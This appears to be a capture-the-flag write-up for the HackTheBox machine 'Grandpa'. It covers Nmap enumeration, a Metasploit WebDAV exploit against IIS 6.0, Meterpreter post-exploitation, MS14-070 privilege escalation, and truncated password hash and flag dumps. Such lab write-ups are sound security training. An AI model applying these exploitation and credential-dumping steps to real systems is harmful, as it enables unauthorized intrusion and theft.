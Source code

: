 [HackTheBox] Grandpa
===============
date: 04/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_grandpa/infocard.png.webp)

This is a writeup for HTB VM [Grandpa](https://www.hackthebox.eu/home/machines/profile/13). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

### Killchain
![writeup.overview.killchain](/static/files/posts_htb_grandpa/killchain.png.webp)

### TTPs
1\. `80/tcp/http/Microsoft IIS httpd 6.0`: [exploit_iis_webdav](https://github.com/7h3rAm/writeups#exploit_iis_webdav), [privesc_windows_ms14_070](https://github.com/7h3rAm/writeups#privesc_windows_ms14_070)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Mon Nov  4 15:43:14 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.grandpa/results/10.10.10.14/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.grandpa/results/10.10.10.14/scans/xml/_quick_tcp_nmap.xml 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up, received user-set (0.057s latency).
Scanned at 2019-11-04 15:43:15 PST for 23s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unkown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Mon, 04 Nov 2019 23:43:43 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  4 15:43:38 2019 -- 1 IP address (1 host up) scanned in 23.46 seconds
```

2\. We look for IIS 6.0 vulnerabilities and find multiple WebDAV related hits:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_grandpa/screenshot01.png.webp)  

### Findings
#### Open Ports
```
80/tcp  |  http  |  Microsoft IIS httpd 6.0
```

## Phase #2: Exploitation
1\. We decide to use the Metasploit `windows/iis/iis_webdav_scstoragepathfromurl` exploit and it successully gives us a Meterpreter shell:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_grandpa/screenshot02.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_grandpa/screenshot03.png.webp)  

## Phase #2.5: Post Exploitation
```
ntauth/network@GRANPA> id
NT AUTHORITY\NETWORK SERVICE
ntauth/network@GRANPA>  
ntauth/network@GRANPA> uname
Computer        : GRANPA
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 3
Meterpreter     : x86/windows
ntauth/network@GRANPA>  
ntauth/network@GRANPA> ifconfig
Ethernet adapter Local Area Connection:
 Connection-specific DNS Suffix  . :
 IP Address. . . . . . . . . . . . : 10.10.10.14
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 10.10.10.2
ntauth/network@GRANPA>  
ntauth/network@GRANPA> users
Administrator
Harry
```

## Phase #3: Privilege Escalation
1\. Since we have certain restrictions that stop us from running commands like `getuid`, we have to migrate to a different process. We find the PID for process `davcdata.exe` and migrate to it:  

![writeup.privesc.steps.1.1](/static/files/posts_htb_grandpa/screenshot04.png.webp)  

2\. We can now use the Metasploit `multi/recon/local_exploit_suggester` module to look for privesc options:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_grandpa/screenshot05.png.webp)  

3\. We tried a few exploits from this list and eventually the `windows/local/ms14_070_tcpip_ioctl` module worked and provided an elevated session:  

![writeup.privesc.steps.3.1](/static/files/posts_htb_grandpa/screenshot06.png.webp)  

![writeup.privesc.steps.3.2](/static/files/posts_htb_grandpa/screenshot07.png.webp)  

4\. We then obtain further information about the system and read the contents of both user.txt and root.txt files to comeplete the challenge:  
```
cat "C:\Documents and Settings\Harry\Desktop\user.txt"
cat "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_grandpa/screenshot08.png.webp)  

## Loot
### Hashes
```
Administrator:500:0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a.................
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f589................
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c...............
Harry:1008:93c50499355883d1441208923e8628e6:031f5563e0ac4ba538e................
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b7.................
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f615.................
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e..................
```
### Flags
```
C:\Documents and Settings\Harry\Desktop\user.txt: bdff5ec67c3cff01................
C:\Documents and Settings\Administrator\Desktop\root.txt: 9359e905a2c35f..................
```

## References
* <https://www.hackthebox.eu/home/machines/profile/13>  
